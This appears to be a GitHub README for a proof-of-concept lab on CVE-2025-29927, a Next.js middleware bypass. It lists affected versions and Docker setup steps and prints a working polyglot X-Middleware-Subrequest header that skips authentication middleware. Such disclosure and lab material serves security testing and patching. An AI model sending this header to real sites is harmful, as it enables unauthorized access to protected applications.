


# CVE-2025-29927: Next.js Middleware Bypass Vulnerability PoC

This repository demonstrates the CVE-2025-29927 vulnerability in Next.js, where the internal header `x-middleware-subrequest` can be used to bypass middleware checks like authentication.

## Affected Versions

  - Next.js 15.x < 15.2.3
  - Next.js 14.x < 14.2.25
  - Next.js 13.x < 13.5.9

## Steps to Reproduce

### 1. Clone the Repository:
```bash
git clone https://github.com/alihussainzada/CVE-2025-29927-PoC.git
```
### 2. Navigate to the Project Folder:
```bash
cd CVE-2025-29927-PoC
```
### 3. Generate a Secret:
```bash
openssl rand -base64 32
```
### 4. Update the Secret in the `.env` File:
```
NEXTAUTH_SECRET=your_generated_secret
```
### 5. Build and Run with Docker:
```bash
docker build -t nextjs .
docker run -p 3000:3000 --env-file .env nextjs
```

## Proof of Concept
We can greatly simplify the exploitation of this issue by using a polyglot that lets us effectively cover the various potential cases. We were able to achieve this with the following HTTP header, used to check for the presence of an authentication bypass:
```
X-Middleware-Subrequest: src/middleware:nowaf:src/middleware:src/middleware:src/middleware:src/middleware:middleware:middleware:nowaf:middleware:middleware:middleware:pages/_middleware
```




## Credits/Sources

- [Next.js Blog on CVE-2025-29927](https://nextjs.org/blog/cve-2025-29927)
- [Zhero Web Security Research: Next.js and the Corrupt Middleware](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
- [Assetnote Security Research: Analyzing the Next.js Middleware Bypass](https://slcyber.io/assetnote-security-research-center/doing-the-due-diligence-analysing-the-next-js-middleware-bypass-cve-2025-29927/)
